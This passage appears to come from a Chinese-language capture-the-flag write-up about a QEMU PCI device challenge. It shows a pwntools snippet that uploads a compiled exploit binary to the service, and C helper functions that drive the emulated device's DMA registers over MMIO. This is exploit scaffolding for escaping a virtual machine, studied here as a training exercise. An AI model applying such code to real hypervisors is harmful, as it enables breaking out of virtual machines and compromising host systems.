 ```python
    poc = open("./exp/exp", "rb").read()
    size = len(poc)
    sl(str(size))
    ru(b"Now send the file\n")
    sn(poc)
    p.interactive()
```

主要功能就是这几个

```c
void SetDMACMD(size_t val) {
  pcimem_write(0x78, 'q', val, 0);
}

void SetDMASRC(size_t val) {
  pcimem_write(0x80, 'q', val, 0);
}

void SetDMADST(size_t val) {
  pcimem_write(0x88, 'q', val, 0);
}

void SetDMACNT(size_t val) {
  pcimem_write(0x90, 'q', val, 0);
}

size_t TriggerDMAWrite() {
  size_t val = 0;
  pcimem_write(0x98, 'q', val, 0);
  return val;
}

size_t GetDMACMD() {
  size_t val = 0;
  pcimem_read(0x78, 'q', &val, 0);
  return val;
}

size_t GetDMASRC() {
  size_t val = 0;
  pcimem_read(0x80, 'q', &val, 0);
  return val;
}

size_t GetDMADST() {
  size_t val = 0;
  pcimem_read(0x88, 'q', &val, 0);
  return val;
}

size_t GetDMACNT() {
  size_t val = 0;
  pcimem_read(0x90, 'q', &val, 0);
  return val;
}
```
